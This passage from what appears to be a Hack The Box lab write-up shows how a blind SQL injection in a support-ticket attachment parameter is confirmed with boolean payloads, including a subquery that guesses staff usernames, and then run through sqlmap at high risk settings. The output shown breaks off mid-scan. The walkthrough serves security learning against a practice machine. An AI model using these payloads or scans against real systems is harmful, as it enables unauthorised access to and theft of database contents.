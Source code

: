 ![1559687332620](https://0xdfimages.gitlab.io/img/1559687332620.png)

The link to the attachment is:
`http://10.10.10.121/support/?v=view_tickets&action=ticket&param[]=4&param[]=attachment&param[]=1&param[]=6`.
If I visit that link, I get a download dialog:

![1559687423953](https://0xdfimages.gitlab.io/img/1559687423953.png)

The SQLi is in the last param. I can show by adding `and 1=1-- -` to the end
of the url. Same download pop up. But if I add `and 1=2-- -` to the end of the
url, I get:

![1559687507879](https://0xdfimages.gitlab.io/img/1559687507879.png)

That’s a blind injection. I can pass some test in, and get true (downloaded
attachment) or false (Whoops!) back.

For example, `and (select (username) from staff limit 0,1) = 'admin'-- -`
returns attachment, while `and (select (username) from staff limit 0,1) =
'0xdf'-- -`returns Whoops!.

### sqlmap

I could script this up, but this seems like a good chance to let `sqlmap` dump
the db. I’ll download the attachment through burp, and save the request to a
file.

![1559764016188](https://0xdfimages.gitlab.io/img/1559764016188.png)

Then I can run:

    
    
    root@kali# sqlmap -r ticket_attachment.request --level 5 --risk 3 -p param[]
            ___
           __H__
     ___ ___[']_____ ___ ___  {1.3.4#stable}
    |_ -| . [)]     | .'| . |
    |___|_  ["]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 17:33:15 /2019-06-04/
    
    [17:33:15] [INFO] parsing HTTP request from 'ticket_attachment.request'
    [17:33:15] [INFO] testing connection to the target URL
    [17:33:15] [INFO] testing if the target URL content is stable
    [17:33:16] [ERROR] there was an error checking the stability of page because of lack of content. Please check the page request results (and probable errors) by using higher verbosity levels
    [17:33:16] [WARNING] heuristic (basic) test shows that GET parameter 'param[]' might not be injectable
    [17:33:16] [INFO] testing for SQL injection on GET parameter 'param[]'
    [17:33:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
    [17:33:17] [INFO] GET parameter 'param[]' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --not-string="go")
    [17:33:19] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
    it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
    ...[snip]...
    [17:33:28] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'